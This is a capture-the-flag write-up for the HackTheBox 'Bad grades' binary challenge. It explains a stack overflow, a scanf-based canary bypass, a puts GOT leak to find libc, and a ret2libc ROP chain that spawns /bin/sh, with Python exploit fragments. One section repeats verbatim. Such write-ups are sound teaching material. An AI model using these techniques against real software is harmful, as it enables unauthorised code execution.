
# HTB Challenge: Bad grades

*"You are not interested in studying for school anymore, you only play CTFs and ?challenges! 
Your grades fell off a cliff! I will take your laptop away if you continue like this". 
You need to do something to raise them before your parents ground you forever.."*


![PWNED](https://raw.githubusercontent.com/Lixhr/HackTheBox/refs/heads/main/PWN/easy/bad_grades/attachments/has_been_pwned.png)

"Bad grades" is an easy-level binary exploitation box. 
Given an ELF and his linked libc.so, i had to find a way to control the program's execution flow. 

I consider it as an introduction to ret2libc and ROP chains.

&nbsp;
## Information Gathering

First of all, i needed to find necessary informations about the executable and its lib.

The ELF is x64, with NX and Canary enabled. Note that PIE is disabled.

With PIE disabled, the function addresses don't change between executions.
We will need to deal with the Canary, so let's keep that in mind for later.

  ![ELF_CHECKSEC](https://github.com/Lixhr/HackTheBox/blob/main/PWN/easy/bad_grades/attachments/elf_checksec.png?raw=true)


Note that PIE is enabled on the libc.
So, we need to leak its base address in order to execute system().

  ![LIBC](https://github.com/Lixhr/HackTheBox/blob/main/PWN/easy/bad_grades/attachments/libc_checksec.png?raw=true)
  
The program is quite simple. 
The student can view his grades, or create a new average.

When creating an average, the user inputs a *number of grades*, then fills the notes one by one.

  ![PROGRAM_OVERVIEW](https://github.com/Lixhr/HackTheBox/blob/main/PWN/easy/bad_grades/attachments/program_screen.png?raw=true)

&nbsp;
## Reversing the binary  


Let's ask Ghidra to decompile the binary and see what's happening behind the scenes.

There are three main functions.
- menu(), which redirects the user in the two functions below. 
- view_grades(), which displays arbitrary grades. Nothing intresting found here.
- new_grades() , asking the user for his grades.

The main issue lies within `new_grades()`. Let's clean it up and analyze it.

        void    new_grades(void)
        {
            long in_FS_OFFSET;
            int nbr_of_grades;
            double total;
            double dbl_array [33];
            long local_10;
            
            local_10 = *(long *)(in_FS_OFFSET + 0x28);
            total = 0.0;
            color_choice("Number of grades: ",&DAT_004012d8,&DAT_00401304);
            scanf("%d",&nbr_of_grades);
            for (int i = 0; i < nbr_of_grades; i++) 
            {
                printf("Grade [%d]: ",i + 1);
                scanf("%lf", dbl_array[i]);
                total += dbl_array[i];
            }
            printf("Your new average is: %.2f\n",total / (double)nbr_of_grades);
            if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) 
                __stack_chk_fail();
            return;
        }
All the grades are stored in dbl_array[33], but there is no input validation.
This obviously leads to a stack buffer overflow. 
Let's try to override the buffer with 34 entries



  ![CANARY](https://github.com/Lixhr/HackTheBox/blob/main/PWN/easy/bad_grades/attachments/canary.png?raw=true)

Here is our stack canary, just after our array. So what now?
&nbsp;
## Bypassing canary

I first tried to bruteforce the canary's value, but it was taking too long.

I finally found a way to make scanf a "ghost" read, by just passing a ".".
This means that no integer or decimal value is written, and our canary remains intact.

- https://ir0nstone.gitbook.io/notes/misc/scanf-bypasses
&nbsp;
## Finding the rip offset

We can write arbitrary data on the stack. 
We now want to override rip value with our "AAAAAAAA"

But, we first need to convert our address to its float representation:

    def pointer_to_double(pointer_value):
        byte_string = p64(pointer_value)
        hex_str = binascii.hexlify(byte_string)
        byte_data = binascii.unhexlify(hex_str)
        x = struct.unpack('d', byte_data)
        return (str(x[0]).encode())

I fuzz the program and saw that the program crashes at EIP=0x41414141414141, with a offset of 34.

Let's do a ret2main to to confirm that we can control the program's flow.

![ret2main](https://github.com/Lixhr/HackTheBox/blob/main/PWN/easy/bad_grades/attachments/ret2main.png?raw=true)


Done.

Note that we have an "unlimited" input. We could craft a crazy ROPchain, but keep it simple.
Let's call system("/bin/sh")

&nbsp;
## Leaking the libc address


![ret2plt](https://github.com/Lixhr/HackTheBox/blob/main/PWN/easy/bad_grades/attachments/functions.png?raw=true)

Sadly, we don't have system() linked in our executable. 
Whe have to ret2plt, in order to leak the libc address.

By calling puts@plt and passing the GOT entry of puts as a parameter. 
This causes puts to print out its own address in libc.

Base address changes at every execution. 
But the padding between each functions is always the same. 
If we can leak the puts@got address, we can guess the system@got.

    def leak_addr(func):
        leak_ropchain = [
            rop.ret[0],
            rop.rdi[0],
            elf.got['puts'],  # puts@got
            elf.plt['puts'],
            0x00401108 # return to main
        ]
        prepare_rop(len(leak_ropchain) + array_offset + canary_offset)
        send_ropchain(leak_ropchain)
        p.recvuntil(b"Your new average is:")
        p.recvline()
        leak = p.recvline() 
        leak = format_addr(leak)
        libc.address = leak - libc.sym['puts']
        success(f"Libc base address : {hex(libc.address)}")

Let's call puts@plt, and leak the puts@got. 
We need a little cleaning on the address to convert it in its decimal representation. 
Don't forget to return to main.

![address](https://github.com/Lixhr/HackTheBox/blob/main/PWN/easy/bad_grades/attachments/address.png?raw=true)

The hard work is done. The program asks us to re-overflow it.
&nbsp;
## Finding the rip offset

We can write arbitrary data on the stack. 
We now want to override rip value with our beautiful "AAAAAAAA"

But, we first need to convert our address to its float representation:

    def pointer_to_double(pointer_value):
        byte_string = p64(pointer_value)
        hex_str = binascii.hexlify(byte_string)
        byte_data = binascii.unhexlify(hex_str)
        x = struct.unpack('d', byte_data)
        return (str(x[0]).encode())

I fuzz the program and saw that the program crashes at EIP=0x41414141414141, with a offset of 34.

Let's do a ret2main to to confirm that we can control the program's flow.

![ret2main](https://github.com/Lixhr/HackTheBox/blob/main/PWN/easy/bad_grades/attachments/ret2main.png?raw=true)


Done.

Note that we have an "unlimited" input. We could craft a crazy ROPchain, but keep it simple. 
Let's call system("/bin/sh")


&nbsp;
## system()

Let's keep the same pattern:

    def exploit():
        exploit_ropchain = [
            rop.ret[0],
            rop.rdi[0],
            next(libc.search(b'/bin/sh')),
            libc.sym['system'],
        ]
        prepare_rop(array_offset + canary_offset + len(exploit_ropchain) + 1)
        p.sendline(b"0.0") 
        info("Sending payload...")
        info(f"System : {hex(exploit_ropchain[2])}")
        info(f"/bin/sh: {hex(exploit_ropchain[1])}")
        send_ropchain(exploit_ropchain)
        p.interactive()

Find a "/bin/sh" address on the libc, it's a common gadget.

After pushing it into RDI (1st arg), just execute system(). 
A shell returns, and asks you to cat flag.

![system](https://github.com/Lixhr/HackTheBox/blob/main/PWN/easy/bad_grades/attachments/final.png?raw=true)